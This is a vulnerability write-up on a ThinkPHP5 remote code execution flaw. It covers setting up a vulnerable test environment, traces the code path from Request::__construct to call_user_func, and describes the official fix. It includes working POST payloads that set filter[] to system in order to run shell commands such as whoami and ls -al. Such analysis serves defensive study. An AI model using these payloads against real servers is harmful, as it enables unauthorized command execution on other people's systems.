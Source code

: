 # ThinkPHP5 Remote Code Execution 2

Author: H3rmesk1t

Data: 2021.08.16

# Vulnerability Summary
- This vulnerability exists in ThinkPHP. The underlying layer does not perform good legality verification on the controller name, resulting in the user being able to call any method of any class without turning on the forced routing, which ultimately leads to the occurrence of remote code execution vulnerability.
- Vulnerability impact version:
5.0.0<=ThinkPHP5<=5.0.23, 5.1.0<=ThinkPHP<=5.1.30

# Initial configuration

Get the test environment code

```bash
composer create-project --prefer-dist topthink/think=5.0.20 tpdemo
```
![Insert the picture description here](https://img-blog.csdnimg.cn/45d4638ea54041578af60d9dae0cea78.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Set the require field of the composer.json file to the following

```bash
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.23"
},
```

Then execute `composer update`

![Insert the picture description here](https://img-blog.csdnimg.cn/24b4f007e8f3428dbf0d89eba49b9218.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Vulnerability Exploit

Payload

````bas
# ThinkPHP <= 5.0.13
POST /?s=index/index
s=whoami&_method=__construct&method=&filter[]=system

# ThinkPHP <= 5.0.23, 5.1.0 <= 5.1.16 Requires to enable the framework app_debug
POST /
_method=__construct&filter[]=system&server[REQUEST_METHOD]=ls -al

# ThinkPHP <= 5.0.23 requires xxx method routing, such as captcha
POST /?s=xxx HTTP/1.1
_method=__construct&filter[]=system&method=get&get[]=ls+-al
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```
![Insert the picture description here](https://img-blog.csdnimg.cn/25f1195fa70f41b59bf2a19b2ad6a76e.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Vulnerability Analysis

It is obvious from the official fix code that `$method` comes from the controllable `$_POST` array, and after obtaining it, it is called directly as a method of the `Request` class. At the same time, the parameter passed in this method is the controllable data `$_POST`, which is equivalent to calling some methods of the `Request` class at will

![Insert the picture description here](https://img-blog.csdnimg.cn/e3f961e9d0f94aa59b1e59fd551fb4ca.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/da28a256be2c4ab6ba1070cc5a37b5ee.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

At the same time, it can be observed that there is a function of overriding the class attributes in the `__construct` method of the `Request` class, which is very beneficial for subsequent utilization. All properties of the `Request` class are as follows

```bash
protected $get protected static $instance;
protected $post protected $method;
protected $request protected $domain;
protected $route protected $url;
protected $put; protected $baseUrl;
protected $session protected $baseFile;
protected $file protected $root;
protected $cookie protected $pathinfo;
protected $server protected $path;
protected $header protected $routeInfo
protected $mimeType protected $env;
protected $content; protected $dispatch
protected $filter; protected $module;
protected static $hook protected $controller;
protected $bind protected $action;
protected $input; protected $langset;
protected $cache; protected $param
protected $isCheckCache;
```
![Insert the picture description here](https://img-blog.csdnimg.cn/ff6d0950d8a34b2fbcdd1b7e05e3c628.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Continue to follow up with the program and find that if the framework enables `debug` mode ( 'app_debug'=true ) in the configuration file, the program will call the `param` method of the `Request` class. This method needs special attention, because the `param, route, get, post, put, delete, patch, request, session, server, env, cookie, and input` methods in the `Request` class all call the `filterValue` method, and there are available `call_user_func` functions in this method.

![Insert the picture description here](https://img-blog.csdnimg.cn/c3bb1ed0cd044ea9a272d635f7ef29c9.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/1cc13262ebd54df79e83c6d7
7e8489d1.png#pic_center)


Following up on the `param` method, it found that it calls the `method` method. The `method` method will call the `server` method, and the `$this->server` method is passed into the `input` method in the `server` method. The value of this `$this->server` can be overridden by the `__construct` method of the previous `Request` class. When the controllable data is passed into the `input` method as `$data` method, the `$data` filter is processed by the `filterValue` method, where the value of `$filter` part comes from `$this->filter`, which can be used to pass the `__construct` of the previous `Request` class. Method to override assignment

![Insert the picture description here](https://img-blog.csdnimg.cn/ef7291717452471da4f24992a13f6cc1.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

![Insert the picture description here](https://img-blog.csdnimg.cn/198a4554f0a14a6e98ff8014024d2340.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Next is the process of `filterValue` method call `call_user_func` processing data, and code execution happens here

![Insert the picture description here](https://img-blog.csdnimg.cn/d2023f6f9177407fa3775032794aa934.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Next, let’s see if the framework debugging mode is not enabled, if this vulnerability can be exploited, an exec method will be executed in the `run` method. When the `$dispatch['type']` in the method is equal to `controller` or `method`, the `param` method of the `Request` class will be called again.

![Insert the picture description here](https://img-blog.csdnimg.cn/a3c8d43258d64ca2ad0e65a4b2154df7.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/308730dbbf3e40a9b60f5551cffc4393.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Follow up on the `param` method of the `Request` class, and the subsequent calling process will be the same as the previous analysis.
Now we need to solve another problem, which is how to make `$dispatch['type']` equal to `controller` or `method`. Through tracking code, we found that `$dispatch['type']` comes from the `$result` variable in the `parseRule` method, and the `$result` variable is related to the `$route` variable. This `$route` variable depends on the routing address method defined in the program.

![Insert the picture description here](https://img-blog.csdnimg.cn/5e6e831930bc453bae2191c044ffc477.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/c9a2ae45a77f483abd4ba54a71b07ff8.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

ThinkPHP5 supports 5 routing address definitions

|Definition method |Definition format |
|--|--|
| Method 1: Routing to module/controller |'[Module/Controller/Operation]? Extra parameter 1=value 1&extra parameter 2=value 2...' |
|Method 2: Route to redirect address | 'External address' (default 301 redirect) or ['External address', 'Redirect code']|
|Method 3: Method to route to controller |'@[Module/Controller/] Operation' |
|Method 4: Methods that route to class |'\full namespace class::static method' or '\full namespace class@dynamic method' |
|Method 5: Route to closure function | Closure function definition (support parameter incoming) |

In the complete version of ThinkPHP5, the routing address of the verification code class is defined. When the program is initialized, the file in the `vendor` directory will be loaded through the automatic class loading mechanism. This way, this route is added in the `GET` method. This routing address can be used to make `$dispatch['type']` equal to `method`, thus completing the remote code execution vulnerability.

Constructed Payload

````bas
POST /index.php?s=captcha HTTP/1.1
    ⋮
Content-Length: 59

_method=__construct&filter[]=system&method=get&get[]=ls+-al
# or
_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```
# Vulnerability Fix

The official fix is: perform whitelist verification on the request method `$method`

![Insert the picture description here](https://img-blog.csdnimg.cn/8276fe2e0ac3452cbe8e38e5d51bf33a.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Attack summary

Refer to Master Mochazz's audit process

![Insert the picture description here](https://img-blog.csdnimg.cn/3ad586d142d6425e81ca5dcda24165cb.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)